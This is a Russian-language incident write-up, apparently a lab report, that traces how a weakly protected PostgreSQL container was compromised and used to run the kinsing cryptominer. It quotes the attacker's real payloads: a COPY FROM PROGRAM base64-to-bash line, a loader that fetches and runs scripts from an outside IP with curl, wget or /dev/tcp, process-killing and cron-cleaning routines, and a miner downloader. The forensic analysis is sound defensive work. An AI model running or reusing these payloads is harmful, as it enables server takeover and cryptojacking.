



# Bonus Labwork 2

В 2024 году мы с друзьями писали пет проект, DishDash (что-то типа тиндера, но чтобы найти места). На самом деле мы перемудрили и сделали абсолютно overengeeired решение. (websockets, e2e тесты на основе голден файлов, рил тайм комнаты) итд. 

## Падение базы данных

В какой-то момент разработки у нас перестала отвечать база данных, эту проблему пришлось срочно решать.

```
FATAL: pg_hba.conf rejects connection for host "127.0.0.1", user "postgres", database "database", no encryption
```

Перезапуск базы не помог, но спустя пару часов мы обнаружили, что IP-адреса наших сервисов заблокированы в конфигурационном файле PostgreSQL (`/var/lib/postgresql/data/pg_hba.conf`).



Кроме наших адресов, заблокированы были еще с десяток неизвестных. Файл мы почистили и на проблему благополучно забили. Однако, спустя пару недель, она снова всплыла.

Еще пару раз мы чистили этот файл, пока нам это не надоело. Было выдвинуто несмелое предположение, что виноваты хакеры. В итоге было принято решение поймать того, кто изменяет файл на месте преступления.

## Первые следы

Мы запустили наблюдателя с помощью `auditctl`. Осталось только подождать недельку и понять, кто подпортил конфигурацию.

Спустя неделю наблюдатель дал результат (логи здесь и далее сокращены в сотни раз).

```
time->Tue Mar 19 14:56:55 2024
type=CWD msg=audit(1710860215.428:65508): cwd="/var/lib/postgresql/data"
type=SYSCALL syscall=264 success=yes exit=0 comm="mv" exe="/usr/bin/mv" subj=docker-default key="pg_hba"
```

Кто-то взял и нагло переместил файл. Кто? До сих пор было неизвестно, но отправной точкой расследования стало время перемещения.

Для начала мы изучили заблокированные адреса, но это нас только запутало. Совершенно не связанные адреса: русские, украинские, корейские, малазийские, индонезийские (??).



Мы отсмотрели syslog и еще парочку логеров. Самыми интересными оказались логи docker compose. Именно они и помогли полностью отследить процесс атаки.

## Распутываем клубок

```
FATAL:  password authentication failed for user "postgres"
```

Злоумышленник попытался подобрать пароль к базе данных. Далеко не с первого раза, но у него это получилось, так как пароль у нас был несложный.

```
STATEMENT:  COPY xeQmgbHw FROM PROGRAM 'echo <огромная закодированная строка> |base64 -d|bash';
```

С помощью `PROGRAM` хакер запустил скрипт. Вот что получилось при декодировании (можно не читать):

```bash
#!/bin/bash
pkill -f zsvc
pkill -f pdefenderd
pkill -f updatecheckerd

function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}

if [ -x "$(command -v curl)" ]; then
  curl 95.142.47.27/pg.sh|bash
elif [ -x "$(command -v wget)" ]; then
  wget -q -O- 95.142.47.27/pg.sh|bash
else
  __curl http://95.142.47.27/pg2.sh|bash
fi
```

Все очень просто: этот скрипт просто скачал другой скрипт с сервера хакера и запустил его. Произошло очень много интересного:

```bash
for filename in /proc/*; do
    ex=$(ls -latrh $filename 2> /dev/null|grep exe)
    if echo $ex |grep -q "/var/lib/postgresql/data/pоstgres\|atlas.x86\|dotsh\|/tmp/systemd-private-\|bin/sysinit\|.bin/xorg\|nine.x86\|data/pg_mem\|/var/lib/postgresql/data/.*/memory\|/var/tmp/.bin/systemd\|balder\|sys/systemd\|rtw88_pcied\|.bin/x\|httpd_watchdog\|/var/Sofia\|3caec218-ce42-42da-8f58-970b22d131e9\|/tmp/watchdog\|cpu_hu\|/tmp/Manager\|/tmp/manh\|/tmp/agettyd\|/var/tmp/java\|/var/lib/postgresql/data/pоstmaster\|/memfd\|/var/lib/postgresql/data/pgdata/pоstmaster\|/tmp/.metabase/metabasew"; then
        result=$(echo "$filename" | sed "s/\/proc\///")
        kill -9 $result
        echo found $filename $result
    fi
done
```

Попытка убить все конкурирующие процессы.

```bash
cleanCron() {
  crontab -l | sed '/base64/d' | crontab -
  crontab -l | sed '/_cron/d' | crontab -
  crontab -l | sed '/31.210.20.181/d' | crontab -
  crontab -l | sed '/update.sh/d' | crontab -
  # еще ~50 строк
}
```

Очистка cron. Чтобы убитые процессы не в коем случае не ожили.

```bash
BIN_MD5="b3039abf2ad5202f4a9363b418002351"
BIN_DOWNLOAD_URL="http://95.142.47.27/kinsing"
BIN_DOWNLOAD_URL2="http://95.142.47.27/kinsing"
CURL_DOWNLOAD_URL="http://95.142.47.27/curl-amd64"
...

download() {
  DOWNLOAD_PATH=$1
  DOWNLOAD_URL=$2
  if [ -L $DOWNLOAD_PATH ]
  then
    rm -rf $DOWNLOAD_PATH
  fi
  if [[ -d $DOWNLOAD_PATH ]]
  then
    rm -rf $DOWNLOAD_PATH
  fi
  chmod 777 $DOWNLOAD_PATH
  $WGET $DOWNLOAD_PATH $DOWNLOAD_URL
  chmod +x $DOWNLOAD_PATH
}
```

Загрузка майнера kinsing.



К большому счастью база данных была запущена не в системе а в docker контейнере и большинство команд просто не смогли выполниться!

```
main: line 378: crontab: command not found
main: line 246: ps: command not found
main: line 237: pkill: command not found
```


Но kinsing успешно загрузился, запустился и уверенно занял 98% CPU. Замаскировался под системный процесс `kdevtmpfsi`.

Про kinsing мы смогли выяснить, что он регулярно отправляет пакеты на какой то ip.

```
connect(54, {sa_family=AF_INET, sin_port=htons(80), sin_addr=inet_addr("176.113.81.186")}, 16) = -1 EINPROGRESS (Operation now in progress)
```

## Выводы

Причиной взлома стал ненадежный пароль от базы данных, и открытый внешний порт.

Данный хак вообще не скрывает своих действий и берет количеством. Нагло убивает системные процессы, и даже (!) устраняет хакеров конкурентов (заблокированные ip адреса). Страшно представить что было бы, если бы хакер проник не в докер контейнер, а в саму систему.

Опасность взлома не шутка. Даже взлом безобидного докер контейнера, дает хакеру большие возможности. (В данном у нас вся тачка была в бутлупе)
